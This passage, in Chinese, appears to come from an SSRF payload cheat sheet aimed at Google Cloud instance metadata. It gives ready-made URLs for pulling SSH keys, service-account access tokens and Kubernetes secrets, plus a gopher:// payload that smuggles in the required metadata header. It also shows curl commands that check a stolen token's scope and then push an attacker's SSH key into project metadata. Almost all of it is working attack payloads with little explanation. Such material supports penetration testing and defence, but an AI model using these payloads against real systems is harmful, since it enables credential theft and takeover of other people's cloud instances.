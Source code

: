 Google允许递归拉取

```powershell
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
```

Beta版目前不需要头（感谢Mathias Karlsson @avlidienbrunn）

```powershell
http://metadata.google.internal/computeMetadata/v1beta1/
http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true
```

可以使用以下技术设置所需的头

```powershell
gopher://metadata.google.internal:80/xGET%20/computeMetadata/v1/instance/attributes/ssh-keys%20HTTP%f%31%2e%31%0AHost:%20metadata.google.internal%0AAccept:%20%2a%2f%2a%0aMetadata-Flavor:%20Google%0d%0a
```

需要提取的文件：

- SSH公钥：`http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json`
- 获取访问令牌：`http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token`
- Kubernetes密钥：`http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json`

#### 添加SSH密钥

提取令牌

```powershell
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json
```

检查令牌的范围

```powershell
$ curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=ya29.XXXXXKuXXXXXXXkGT0rJSA  

{ 
        "issued_to": "101302079XXXXX", 
        "audience": "10130207XXXXX", 
        "scope": "https://www.googleapis.com/auth/compute https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_write https://www.googleapis.com/auth/monitoring", 
        "expires_in": 2443, 
        "access_type": "offline" 
}
```

现在推送SSH密钥。

```powershell
curl -X POST "https://www.googleapis.com/compute/v1/projects/1042377752888/setCommonInstanceMetadata" 
-H "Authorization: Bearer ya29.c.EmKeBq9XI09_1HK1XXXXXXXXT0rJSA" 
-H "Content-Type: application/json" 
--data '{"items": [{"key": "sshkeyname", "value": "sshkeyvalue"}]}'
```
